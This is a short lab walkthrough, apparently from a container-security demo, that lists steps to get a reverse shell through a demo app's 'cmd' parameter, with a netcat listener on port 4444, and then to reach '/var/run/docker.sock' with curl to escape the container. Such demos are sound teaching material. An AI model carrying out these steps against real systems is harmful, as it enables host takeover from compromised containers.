

# Escape via socket

## Steps to reproduce
1. Start the demo app as described in the [README.md](../README.md).
2. Start a netcat listener on your system: `nc -lvp 4444`
3. Open `http://localhost:8888` in your browser.
4. Use the following URL path to exploit the demo app and get a reverse shell: `http://localhost:8888/?cmd={reverse_shell_script}`
5. Try to escape the container via the socket (`/var/run/docker.sock`).
6. Use `curl` to send a request to the socket. For example `curl --unix-socket /var/run/docker.sock http://localhost/images/json`

